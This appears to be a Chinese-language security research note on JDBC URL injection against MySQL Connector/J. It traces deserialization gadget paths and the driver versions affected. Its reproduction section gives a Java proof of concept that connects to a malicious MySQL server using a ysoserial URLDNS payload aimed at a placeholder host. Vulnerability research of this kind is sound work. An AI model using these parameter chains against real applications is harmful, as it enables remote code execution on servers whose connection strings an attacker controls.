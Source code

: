 - [JDBC Attack](#jdbc-attack)
  - [Mysql](#mysql)
    - [autoDeserialize](#autodeserialize)
    - [queryInterceptors](#queryinterceptors)
    - [ServerStatusDiffInterceptor](#serverstatusdiffinterceptor)
      - [ResultSetImpl#getObject](#resultsetimplgetobject)
    - [detectCustomCollations](#detectcustomcollations)
      - [总结](#总结)
    - [复现](#复现)
    - [参考](#参考)
  - [PostgreSQL](#postgresql)
# JDBC Attack
主要是当JDBC连接的url可控时的攻击面  
条件: JDBC连接的url可控.  
JDBC基础语法:
```
jdbc:mysql://[host][,failoverhost...]
    [:port]/[database]
    [?propertyName1][=propertyValue1]
    [&propertyName2][=propertyValue2]...
```
## Mysql
通过在JDBC连接时指定autoDeserialize,queryInterceptors等参数让服务器自动进行反序列化恶意数据。
### autoDeserialize
[官方文档](https://dev.mysql.com/doc/connector-j/8.0/en/connector-j-connp-props-blob-clob-processing.html#cj-conn-prop_autoDeserialize)  
该属性用于指示处理BLOB类型时驱动是否自动识别并反序列化BLOB字段的数据,默认为false.
![](1.png)
### queryInterceptors
[官方文档](https://dev.mysql.com/doc/connector-j/8.0/en/connector-j-connp-props-statements.html#cj-conn-prop_queryInterceptors)  
语句拦截器,用于在两条语句执行中间对结果进行修改,接受以逗号分隔并实现了`com.mysql.cj.interceptors.QueryInterceptor`类的class列表,并且为链式结构,处理结果从左到右依次传递.
![](2.png)

而在JDBC连接过程中会自动执行SET CHARSET,set autocommit=1等语句来初始化一些环境参数,就会触发`queryInterceptors`中指定的类执行。

不同版本的参数名有一些差异
1. 6.x版本：queryInterceptors->statementInterceptors.
2. 5.1.11以上版本: queryInterceptors->statementInterceptors.
3. 5.1.10及以下的5.1.X版本,queryInterceptors->statementInterceptors,需要连接后执行查询语句后才会触发Interceptors.
### ServerStatusDiffInterceptor
`ServerStatusDiffInterceptor`类就是实现了`com.mysql.cj.interceptors.QueryInterceptor`的子类，其中的`preProcess`表示在下一条语句执行前要执行的方法,代码如下
![](3.png)
其中调用了`populateMapWithSessionStatusValues`,在其中最后调用了`ResultSetUtil.resultSetToMap(toPopulate, rs);`
而在`resultSetToMap`中则会触发`ResultSet.getObject`  
```java
    public static void resultSetToMap(Map mappedValues, ResultSet rs) throws SQLException {
        while(rs.next()) {
            mappedValues.put(rs.getObject(1), rs.getObject(2));
        }

    }
```
#### ResultSetImpl#getObject
在ResultSetImpl#getObject的实现中,会根据字段类型做不同处理,当处理到blob字段类型时则会对字段数据进行反序列化,造成反序列化攻击。
![](4.png)
![](5.png)
### detectCustomCollations
在`ConnectionImpl`中,会对`SHOW COLLATION`返回结果调用`Util.resultSetToMap`进行处理，而`resultSetToMap`则和`ServerStatusDiffInterceptor`相同,最后走到`ResultSetImpl#getObject`触发反序列化。
![](8.png)
前提是`this.getDetectCustomCollations()`要为true,且最小版本要大于5.0.0。  
而detectCustomCollations这个选项在5.1.29之前一直为true,但我们也可以在参数中直接指定该变量为true。  
![](13.png)  
而在5.1.18及以下版本并未使用getObject(),无法触发。
![](18.png)
根据[参考文章](https://www.anquanke.com/post/id/203086#h2-4)说是由于从5.1.41版本开始，不再使用getObject的方式获取SHOW COLLATION的结果，此方法失效,实测是5.1.39以后,不再直接调用`ResultSetImpl#getObject`,但是对`SHOW COLLATION`结果的第三列直接调用了results.getObject(),最后还是进入的ResultSetImpl#getObject中.
![](9.png)
其中字段类型为-4,-3,-2(blob,bit,binary)时会进入`getObjectDeserializingIfNeeded`方法,直接用[恶意mysql服务器](https://github.com/fnmsd/MySQL_Fake_Server)的设置即可满足此条件.    
![](10.png)
该方法和之前类似进行了反序列化操作,其中通过`this.connection.getAutoDeserialize()`来确定是否进行反序列化,在url中同之前一样设置`autoDeserialize=true`即可.
![](11.png)
![](12.png)  

直到5.1.49才真正没有调用getObject().
![](14.png)
但在6.0.2开始,版本中却又直接调用了`ResultSetUtil.resultSetToMap`，又回到了`ServerStatusDiffInterceptor`那条链中,同样可以触发反序列化,实测直到6.0.6版本都是这样。
![](15.png)
![](17.png)

而在8.x版本获取`SHOW COLLATION`时又不一样了,才终于无法利用该点触发了。
![](16.png)
#### 总结
detectCustomCollations触发版本:5.1.18< version <=6.0.6(5.1.49除外)

### 复现
[恶意mysql服务器](https://github.com/fnmsd/MySQL_Fake_Server)  

```java
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;

public class JDBC {
    public static void main(String[] args) throws ClassNotFoundException, SQLException {
        Class.forName("com.mysql.cj.jdbc.Driver");

        Connection conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor","yso_URLDNS_http://xxx.cn/", "pass");
        //Connection conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/test?detectCustomCollations=true&autoDeserialize=true","yso_URLDNS_http://xxx.cn/", "pass");
    }
}

```
判断返回数据前两个字节是否为序列化数据的特征-84,-19,满足条件则进行反序列化.
![](6.png)

![](7.png)
### 参考
https://www.anquanke.com/post/id/203086#h2-4
## PostgreSQL 

